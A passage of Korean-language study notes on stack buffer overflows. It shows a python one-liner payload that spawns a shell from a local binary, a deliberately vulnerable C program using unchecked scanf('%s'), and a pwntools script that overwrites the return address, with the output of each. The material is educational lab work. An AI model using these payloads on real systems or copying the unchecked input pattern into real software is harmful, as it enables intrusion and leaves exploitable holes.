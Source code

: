 
아래와 같이 파이썬에서 모듈을 불러와 해결할 수도 있음
```sh
$ (python -c "import sys;sys.stdout.buffer.write(b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00')";cat)| ./rao$ ididuid=1000(rao) gid=1000(rao) groups=1000(rao)
```


# 기본 예시2
첫 번째 예시와 같은 방법으로 exploit할 수 있음
```c
#include <stdio.h>

void test() {
    printf("success");
}

int main() {
    char buffer[20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    scanf("%s", buffer);

    return 0;
}
```

setvbuf() 함수는 스트림들의 버퍼링을 비활성화하게 만들어 줌 
즉, 입력을 하거나 출력을 할 때, 버퍼를 거치지 않고 바로 들어감
이런 설정을 사용하는 주요 이유는 일반적으로 터미널과의 상호작용에서 버퍼링 때문에 원치 않는 지연이나 의도치 않은 동작이 발생하는 것을 방지하기 위해서임

```python
from pwn import *

p = process('./ret_overwrite')

success = 0x08049186

buf = b""

buf += b'a' * 24
buf += p32(success)

p.sendline(buf)

print(p.recvall())
```

```sh
$ python3 exploit.py 
[+] Starting local process './ret_overwrite': pid 36237
[+] Receiving all data: Done (7B)
[*] Process './ret_overwrite' stopped with exit code -11 (SIGSEGV) (pid 36237)
b'success'
```
